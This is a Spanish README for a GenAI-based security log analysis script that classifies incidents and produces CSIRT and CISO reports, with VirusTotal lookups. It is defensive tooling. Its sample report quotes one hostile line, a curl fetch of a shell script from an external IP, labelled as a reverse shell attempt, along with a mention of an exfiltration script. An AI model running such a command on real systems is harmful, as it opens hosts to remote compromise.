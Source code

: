 # challenge-GenIA
# 🛡️ Challenge – Análisis de Logs con GenAI

Este script (`challenge.py`) implementa un **microservicio de análisis de incidentes** utilizando modelos de **GenAI (OpenAI o Gemini)**.  
Su objetivo es asistir en la gestión de incidentes de seguridad a partir de un archivo `.log`.

---

## ✨ Funcionalidades

- Ingesta de archivos `.log` (línea por línea).  
- Clasificación de eventos como:
  - **Críticos**: actividad sospechosa, intentos de intrusión, exfiltración, reverse shells, etc.  
  - **Informativos**: actividad normal o de bajo riesgo.  
- Generación automática de:
  - **Reporte CSIRT** (timeline crítico, IOC feed, TTPs MITRE ATT&CK, estadísticas, recomendaciones).  
  - **Reporte CISO** (narrativo ejecutivo panorama general, riesgos, próximos pasos).  
- Consultas a **VirusTotal** para reputación de IPs públicas.  
- Salidas organizadas en múltiples formatos:  
  - `classified_events.yaml`: clasificación detallada de cada evento.  
  - `csirt_report.md`: informe técnico para equipos de respuesta.  
  - `ciso_report.md`: informe ejecutivo para la gerencia.  
  - `vt_results.json`: resultados de reputación de IPs (si no se usa `--skip-vt`).  

---

## 📦 Requisitos

Python 3.9+  
Librerías necesarias:

```
pip install openai google-generativeai pyyaml requests
```

Además, debes configurar tus **API Keys** como variables de entorno:

```
export OPENAI_API_KEY="tu_api_key_openai"
export GEMINI_API_KEY="tu_api_key_gemini"
export VT_API_KEY="tu_api_key_virustotal"   # opcional
```

---

## 🚀 Uso

```
python3 challenge.py --input sample.log --outdir resultados --provider openai
```

### Parámetros disponibles

- `--input` → Archivo `.log` a analizar (obligatorio).  
- `--outdir` → Carpeta donde se guardarán los artefactos generados.  
- `--provider` → Motor de IA a usar: `openai` o `gemini` (default: `openai`).  
- `--skip-vt` → Omitir consultas a VirusTotal.  
- `--debug` → Mostrar información detallada de depuración.  

---

## 📂 Ejemplo de Ejecución

```
python3 challenge.py --input ../../logs/sim_incident.log --outdir resultados --provider gemini --debug
```

Salida esperada:

```
📂 Artefactos generados en resultados/
```

Archivos en el directorio:

- `classified_events.yaml` → Clasificación de todos los eventos.  
- `csirt_report.md` → Informe técnico con timeline, IOC feed, TTPs y recomendaciones.  
- `ciso_report.md` → Informe ejecutivo para CISO/gerencia.  
- `vt_results.json` → Reputación de IPs públicas (si no se usa `--skip-vt`).  

---

## 🧪 Ejemplo de Salida (`csirt_report.md`)

```
## Reporte CSIRT
### Timeline de Eventos Críticos
- 2024-08-15 01:02:20 – IP 185.23.91.10 (RU, ASN123) – Ejecución de `/usr/bin/python3 exfil.py` → intento de exfiltración.
- 2024-08-15 01:15:52 – IP 185.23.91.10 (RU, ASN123) – `curl http://185.23.91.10/shell.sh` → intento de reverse shell.

### Tabla de TTPs
| TTP ID | Descripción                        | Actor asociado |
|--------|------------------------------------|----------------|
| T1059  | Command and Scripting Interpreter  | APT28          |
| T1041  | Exfiltration over C2 Channel       | Desconocido    |

### IOC Feed
- IP: 185.23.91.10  
- Script: exfil.py  
- Comando: curl shell.sh  

### Estadísticas
- Total eventos: 300  
- Críticos: 24  
- Informativos: 276  
- % Críticos: 8%  

### Recomendaciones Inmediatas
1. Bloquear IPs asociadas al incidente.  
2. Aislar host afectado.  
3. Revisar credenciales utilizadas.  
4. Validar integridad de los logs.  
5. Ejecutar investigación forense completa.  
```

---

## 📋 Ejemplo de Salida (`ciso_report.md`)

```
## Reporte CISO
Durante el análisis de los logs se identificó actividad sospechosa proveniente de direcciones IP extranjeras, asociadas a intentos de exfiltración y creación de shells reversos.  
Se detectaron múltiples accesos no autorizados a rutas administrativas, lo que sugiere un compromiso en curso.  
(...)
```
 
> Contiene panorama general, actores principales, impacto potencial, riesgos globales (0-100) y próximos pasos estratégicos.  

---

## 🔮 Próximos pasos recomendados

- Integrar este script en un pipeline CI/CD de seguridad.  
- Conectar con un SIEM (Splunk/ELK) para ingesta automática.  
- Extender soporte a otros formatos de log (syslog, Windows Event Logs).  
- Generar reportes adicionales (ej: cumplimiento regulatorio).
- Mejorar la performance y costo.
